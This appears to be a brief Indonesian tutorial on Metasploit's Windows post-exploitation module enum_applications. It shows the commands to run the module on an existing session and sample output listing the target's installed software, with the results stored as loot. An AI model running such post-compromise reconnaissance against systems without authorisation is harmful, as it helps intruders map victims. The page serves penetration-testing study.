 # enum_applications

Modul `enum_applications` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengumpulkan daftar aplikasi yang terinstal di komputer target.

## Cara Penggunaan di Metasploit

```
use post/windows/gather/enum_applications
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Enumerating applications installed on ADMIN-PC

Installed Applications
======================

 Name                                                       Version
 ----                                                       -------
 Cisco EAP-FAST Module                                      2.2.14
 Cisco LEAP Module                                          1.0.19
 Cisco PEAP Module                                          1.1.6
 Microsoft Visual C++ 2008 Redistributable - x86 9.0.30729  9.0.30729
 Mozilla Firefox (x64 en-US)                                115.0.3
 Mozilla Maintenance Service                                115.0.1
 Oracle VirtualBox Guest Additions 7.1.8                    7.1.8.168469
 REALTEK Wireless LAN Driver and Utility                    1.00.0253


[+] Results stored in: /root/.msf4/loot/20250516131207_default_192.168.1.52_host.application_336295.txt
[*] Post module execution completed
```
